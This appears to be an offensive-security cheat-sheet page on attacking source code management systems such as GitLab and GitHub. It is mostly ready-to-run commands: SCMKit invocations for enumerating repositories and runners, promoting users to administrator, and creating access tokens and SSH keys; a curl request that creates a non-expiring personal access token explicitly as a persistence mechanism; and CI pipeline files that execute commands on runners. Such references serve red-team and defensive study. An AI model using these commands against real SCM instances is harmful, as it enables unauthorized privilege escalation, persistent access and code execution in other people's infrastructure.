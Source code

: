 # Source Code Management

> 

## Summary

* [Enumeration](#enumeration)
* [Exploit Gitlab CI/Github Actions](#exploit-gitlab-cigithub-actions)
* [References](#references)


## Enumeration


Using [SCMKit - Source Code Management Attack Toolkit](https://github.com/xforcered/SCMKit)

* Discover repositories being used in a particular SCM system
    ```ps1
    SCMKit.exe -s gitlab -m listrepo -c userName:password -u https://gitlab.something.local
    SCMKit.exe -s gitlab -m listrepo -c apiKey -u https://gitlab.something.local
    ```
* Search for repositories by repository name in a particular SCM system
    ```ps1
    SCMKit.exe -s github -m searchrepo -c userName:password -u https://github.something.local -o "some search term"
    SCMKit.exe -s gitlab -m searchrepo -c apikey -u https://gitlab.something.local -o "some search term"
    ```
* Search for code containing a given keyword in a particular SCM system
    ```ps1
    SCMKit.exe -s github -m searchcode -c userName:password -u https://github.something.local -o "some search term"
    SCMKit.exe -s github -m searchcode -c apikey -u https://github.something.local -o "some search term"
    ```
* Search for files in repositories containing a given keyword in the file name in a particular SCM system
    ```ps1
    SCMKit.exe -s gitlab -m searchfile -c userName:password -u https://gitlab.something.local -o "some search term"
    SCMKit.exe -s gitlab -m searchfile -c apikey -u https://gitlab.something.local -o "some search term"
    ```
* List snippets owned by the current user in GitLab
    ```ps1
    SCMKit.exe -s gitlab -m listsnippet -c userName:password -u https://gitlab.something.local
    SCMKit.exe -s gitlab -m listsnippet -c apikey -u https://gitlab.something.local
    ```
* List all GitLab runners available to the current user in GitLab
    ```ps1
    SCMKit.exe -s gitlab -m listrunner -c userName:password -u https://gitlab.something.local
    SCMKit.exe -s gitlab -m listrunner -c apikey -u https://gitlab.something.local
    ```
* Get the assigned privileges to an access token being used in a particular SCM system
    ```ps1
    SCMKit.exe -s gitlab -m privs -c apiKey -u https://gitlab.something.local
    ```
* Promote a normal user to an administrative role in a particular SCM system
    ```ps1
    SCMKit.exe -s gitlab -m addadmin -c userName:password -u https://gitlab.something.local -o targetUserName
    SCMKit.exe -s gitlab -m addadmin -c apikey -u https://gitlab.something.local -o targetUserName
    SCMKit.exe -s gitlab -m removeadmin -c userName:password -u https://gitlab.something.local -o targetUserName
    ```
* Create/List/Delete an access token to be used in a particular SCM system
    ```ps1
    SCMKit.exe -s gitlab -m createpat -c userName:password -u https://gitlab.something.local -o targetUserName
    SCMKit.exe -s gitlab -m createpat -c apikey -u https://gitlab.something.local -o targetUserName
    SCMKit.exe -s gitlab -m removepat -c userName:password -u https://gitlab.something.local -o patID
    SCMKit.exe -s gitlab -m listpat -c userName:password -u https://gitlab.something.local -o targetUser
    SCMKit.exe -s gitlab -m listpat -c apikey -u https://gitlab.something.local -o targetUser
    ```
* Create/List an SSH key to be used in a particular SCM system
    ```ps1
    SCMKit.exe -s gitlab -m createsshkey -c userName:password -u https://gitlab.something.local -o "ssh public key"
    SCMKit.exe -s gitlab -m createsshkey -c apiToken -u https://gitlab.something.local -o "ssh public key"
    SCMKit.exe -s gitlab -m listsshkey -c userName:password -u https://github.something.local
    SCMKit.exe -s gitlab -m listsshkey -c apiToken -u https://github.something.local
    SCMKit.exe -s gitlab -m removesshkey -c userName:password -u https://gitlab.something.local -o sshKeyID
    SCMKit.exe -s gitlab -m removesshkey -c apiToken -u https://gitlab.something.local -o sshKeyID
    ```

## Personal Access Token

Create a PAT (Personal Access Token) as a persistence mechanism for the Gitlab instance.

```ps1
curl -k --request POST --header "PRIVATE-TOKEN: apiToken" --data "name=user-persistence-token" --data "expires_at=" --data "scopes[]=api" --data "scopes[]=read_repository" --data "scopes[]=write_repository" "https://gitlabHost/api/v4/users/UserIDNumber/personal_access_tokens"
```

## Exploit Gitlab CI/Github Actions

* Gitlab-CI "Command Execution" example: `.gitlab-ci.yml`
    ```yaml
    stages:
        - test

    test:
        stage: test
        script:
            - |
                whoami
        parallel:
            matrix:
                - RUNNER: VM1
                - RUNNER: VM2
                - RUNNER: VM3
        tags:
            - ${RUNNER}
    ```
* Github Action "Command Execution" example: `.github/workflows/example.yml`
    ```yml
    name: example
    on:
      workflow_dispatch:
      push:
        branches: [ main ]
      pull_request:
        branches: [ main ]

    jobs:
      build:
        runs-on: windows-2019

        steps:
          - name: Execute
            run: |
              whoami
    ```
    
## References

* [Controlling the Source: Abusing Source Code Management Systems - Brett Hawkins - August 9, 2022](https://securityintelligence.com/posts/abusing-source-code-management-systems/)